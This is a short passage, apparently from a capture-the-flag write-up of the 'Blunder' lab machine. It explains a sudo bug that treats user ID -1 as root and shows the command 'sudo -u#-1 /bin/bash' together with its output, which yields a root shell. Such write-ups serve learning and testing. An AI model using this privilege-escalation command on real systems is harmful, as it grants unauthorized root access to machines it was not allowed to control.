 ```
The function which converts user id into its username incorrectly treats -1,or its unsigned equivalent 4294967295, like 0, which is always the user ID of root user.
```
so if we execute:  
```
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password:
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```
we get a shell as root.
